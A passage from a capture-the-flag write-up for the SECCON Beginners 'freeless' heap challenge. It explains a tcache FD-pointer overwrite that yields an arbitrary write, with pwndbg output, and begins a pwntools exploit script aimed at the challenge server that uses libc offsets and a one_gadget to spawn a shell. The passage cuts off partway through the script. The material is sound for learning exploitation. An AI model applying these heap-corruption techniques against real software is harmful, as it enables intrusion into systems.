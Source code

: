 To achieve an arbitrary write, all we have to do is overflow from the `0xaa0` sized chunk and overwrite the FD pointer (`0x000056363f606d60` with reference to the diagram above) of the tcache chunk with our target address, taking extra care to preserve the `0x291` size field. For instance, suppose we want to write to `0xdeadbeefdeadbeef`, we can simply write that address into the FD pointer. Doing so will result in the following:

```
pwndbg> tcachebins
tcachebins
0x290 [  2]: 0x56363f628d60 —▸ 0xdeadbeefdeadbeef ◂— 0x0
```

From this point on, we can just make two requests for `0x290` sized chunks and they will be allocated from the tcache. The second chunk allocated to us will reside at `0xdeadbeefdeadbeef`. We can then use the `edit` function of the program to let us write whatever value we desire at said address. Hence, we've achieved an arbitrary write.

From this point on we should be able to craft an exploit to spawn a shell on the server.

```python
from pwn import *

HOST = "freeless.quals.beginners.seccon.jp"
PORT = 9077

CHALLENGE = "./chall"
CHALLENGE_LIBC = "libc-2.31.so"
DEBUG_LIBC = "libc-2.31-debug.so"

MENU_PROMPT = "> "
INDEX_PROMPT = "index: "
SIZE_PROMPT = "size: "
DATA_PROMPT = "data: "

DATA_MARKER = "data: "

CURRENT_INDEX = 0

elf = context.binary = ELF(CHALLENGE, checksec=False)

if args.REMOTE:
    io = remote(HOST, PORT)
    libc = ELF(CHALLENGE_LIBC, checksec=False)
    # Use posix_spawn one_gadget (tends to be less finnicky)
    # (https://github.com/david942j/one_gadget/issues/121)
    libc.symbols["one_gadget"] = 0x54F89
    libc.symbols["main_arena"] = libc.sym.__malloc_hook + 0x10
else:
    io = elf.process()
    libc = ELF(DEBUG_LIBC, checksec=False)
    libc.symbols["one_gadget"] = 0xBEEF  # one_gadget wont work with debug libc


def create(size: int) -> int:
    global CURRENT_INDEX

    io.sendlineafter(MENU_PROMPT, str(1))
    io.sendlineafter(INDEX_PROMPT, str(CURRENT_INDEX))
    io.sendlineafter(SIZE_PROMPT, str(size))

    CURRENT_INDEX += 1

    return CURRENT_INDEX - 1


def edit(index: int, data: bytes):
```
